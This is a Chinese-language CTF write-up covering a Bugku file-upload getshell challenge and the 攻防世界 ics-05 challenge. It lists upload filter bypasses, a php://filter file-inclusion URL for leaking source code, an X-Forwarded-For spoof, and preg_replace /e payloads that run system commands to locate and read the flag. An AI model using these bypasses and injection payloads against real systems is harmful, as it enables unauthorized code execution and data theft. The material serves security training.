

## Web 九月第一周

### bugku求getshell

上传，过滤

- 请求头部的 Content-Type
- 文件后缀
- 请求数据的Content-Type

文件后缀可以尝试：php4，phtml，phtm，phps，php5

修改头Content-Type，改变一个为大写

修改数据的Content-Type：image/jpeg

### 攻防世界ics-05

文件包含，php preg_replace函数执行漏洞

首先找到可以点击的连接，进入之后，一通乱点，看到有传参url：



参考网上wp，考虑文件包含，使用php伪协议尝试获取源码，构造url：

`http://111.198.29.45:32850/index.php?page=php://filter/read=convert.base64-encode/resouce=index.php`

然后得到源码，之后解码

得到源码：

```php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}

```

查看preg_replace函数：一个漏洞：

当pre_replace的参数pattern输入/e的时候 ,参数replacement的代码当作PHP代码执行

构造pyload：/index.php?pat=/123/e&rep=system("find+-iname+flag")&sub=123

并且用burp修改xff头：X-Forwarded-For：127.0.0.1

再构造:index.php?pat=/123/e&rep=system("cd+./s3chahahaDir/flag%26%26ls")&sub=123

```
index.php?pat=/123/e&rep=system("cat+./s3chahahaDir/flag/flag.php")&sub=123
```

